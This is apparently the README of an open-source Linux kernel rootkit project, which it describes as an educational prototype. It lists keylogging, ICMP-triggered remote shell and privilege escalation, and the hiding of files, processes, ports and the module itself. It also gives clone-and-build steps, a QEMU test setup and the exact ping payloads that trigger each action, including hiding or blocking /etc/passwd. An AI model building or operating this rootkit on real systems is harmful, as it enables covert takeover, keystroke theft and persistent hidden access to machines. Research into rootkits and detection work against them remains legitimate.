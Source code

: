 # Description

> [!Important]
> This rootkit is for educational and research purposes only.
> This project is a prototype, and not fully functionnal.

Kprobe-based LKM rootkit. With ICMP communication and Keylogger.

![image](https://images7.alphacoders.com/885/885118.jpg)

# Overview

* ICMP communication
* Keylogger
* File hide
* PID hide
* Port hide
* LKM hide
* Openrc Persistence

# Build

## Quick start

```bash
git clone https://github.com/MikeHorn-git/Silence
cd Silence
make
```

## Makefile

```makefile
Usage: make <target>
Targets:
  help         Display this help message
  all          Build LKM
  clean        Clean LKM
  dist         Create tar archive release
  format       Format all .c, .h files with clang-format
```

# Dev Environment

Build the rootkit before

## Prepare

```bash
mkdir /tmp/qemu-share
cp -r ./src /tmp/qemu-share
cd ./test/qemu
```

## Download Kernel

```bash
./download.sh
```

## Build Qemu

```bash
./build.sh <path_to_bzImage>
```

## Run Qemu

```bash
./run.sh
```

Default credential is root:password

## Load LKM

```bash
sh /mount.sh
sh /network.sh
insmod /tmp/share/src/silence.ko
depmod
```

## Interact

> [!Important]
> Do not using ping from [Busybox](https://www.busybox.net/)

```ping -p <code> -c 1 8.8.8.8```

### Elevate process privilege

```ping -p ca550100000000000000000000000000 -c 1 8.8.8.8```

### Launch a remote shell

```ping -p ff -c 1 8.8.8.8```

### Get a keylogger records

```ping -p ba -c 1 8.8.8.8```

### Hide process

```ping -p de550100000000000000000000000000 -c 1 8.8.8.8```

### Hide passwd file

```ping -p ad017061737377640000000000000000 -c 1 8.8.8.8```

### Restore

```ping -p ad007061737377640000000000000000 -c 1 8.8.8.8```

### Unable to open /etc/passwd

```ping -p fe012f6574632f706173737764000000 -c 1 18.8.8.8```

### Restore

```ping -p fe002f6574632f706173737764000000 -c 1 18.8.8.8```

# Authors

* [p2lu](https://github.com/p2lu)
* [exhyl](https://github.com/hnopew)
* [MikeHorn-git](https://github.com/MikeHorn-git)
